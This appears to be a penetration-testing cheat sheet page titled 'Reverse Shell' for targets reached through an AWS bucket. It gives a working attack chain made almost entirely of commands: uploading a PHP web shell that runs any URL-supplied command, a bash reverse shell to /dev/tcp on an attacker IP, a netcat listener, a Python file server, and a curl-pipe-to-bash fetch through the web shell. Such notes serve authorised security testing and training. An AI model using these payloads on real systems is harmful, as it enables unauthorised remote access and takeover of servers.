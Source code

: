 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

## <mark style="color:purple;">For awscli</mark>

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload in the bucket
http://$url/shell.php?cmd=id #On browser, if response we have access
```
{% endcode %}

***

* Create bash file for reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Make curl from local server to get reverse shell file and pass it to bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}

***

